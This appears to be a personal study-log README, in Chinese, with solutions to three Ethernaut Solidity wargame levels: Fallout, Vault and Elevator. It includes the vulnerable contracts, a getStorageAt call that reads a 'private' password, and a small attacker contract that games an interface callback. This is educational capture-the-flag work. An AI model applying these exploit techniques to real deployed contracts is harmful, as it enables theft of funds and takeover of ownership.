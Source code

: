 ```yaml
---
timezone: Asia/Shanghai 
---
```


# silver

1. 自我介绍 想多学习些web3知识

2. 你认为你会完成本次残酷学习吗？ 尽力

## Notes

<!-- Content_START -->

### 2024.08.29

Ethernaut 

#### fallout

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Fallout {
    using SafeMath for uint256;

    mapping(address => uint256) allocations;
    address payable public owner;

    /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }

    modifier onlyOwner() {
        require(msg.sender == owner, "caller is not the owner");
        _;
    }

    function allocate() public payable {
        allocations[msg.sender] = allocations[msg.sender].add(msg.value);
    }

    function sendAllocation(address payable allocator) public {
        require(allocations[allocator] > 0);
        allocator.transfer(allocations[allocator]);
    }

    function collectAllocations() public onlyOwner {
        msg.sender.transfer(address(this).balance);
    }

    function allocatorBalance(address allocator) public view returns (uint256) {
        return allocations[allocator];
    }
}
```

要求成为合约的owner，看了代码只有一个函数有设置owner的功能：

```
  /* constructor */
    function Fal1out() public payable {
        owner = msg.sender;
        allocations[owner] = msg.value;
    }
```

虽然注释写了是构造函数，但是其实不是（是Fal1out而非Fallout），所以可以直接调用，就可以成为owner。

#### vault

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Vault {
    bool public locked;
    bytes32 private password;

    constructor(bytes32 _password) {
        locked = true;
        password = _password;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

可以看到虽然password是私有变量，但是可以通过读取对应位置的storage或查看合约部署时的inputdata得到password。密码存放在第二个插槽中：
```
await web3.eth.getStorageAt("0xC2205dfcB5Ef96C4357ad8CDe94e5348E1e33f3D",1)
'0x412076657279207374726f6e67207365637265742070617373776f7264203a29'
```



### 2024.08.30

#### Ethernaut - Elevator

```

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Building {
    function isLastFloor(uint256) external returns (bool);
}

contract Elevator {
    bool public top;
    uint256 public floor;

    function goTo(uint256 _floor) public {
        Building building = Building(msg.sender);

        if (!building.isLastFloor(_floor)) {
            floor = _floor;
            top = building.isLastFloor(floor);
        }
    }
}
```

如果要top返回true，就要islastfloor第一次返回false，第二次返回true。building合约是调用的msg.sender，所以我们构造一个合约，其islastfloor函数满足这个逻辑就好，输入的参数不重要。

```
contract MockBuilding {
    uint count=0;
    function isLastFloor(uint256 a) external returns (bool){
        if (count==0){
            count++;
            return false;
        }else{
            return true;
        }
    }
    function callElevator(address addr) external{
        Elevator(addr).goTo(0);
    }
}
```


### 2024.08.31



<!-- Content_END -->
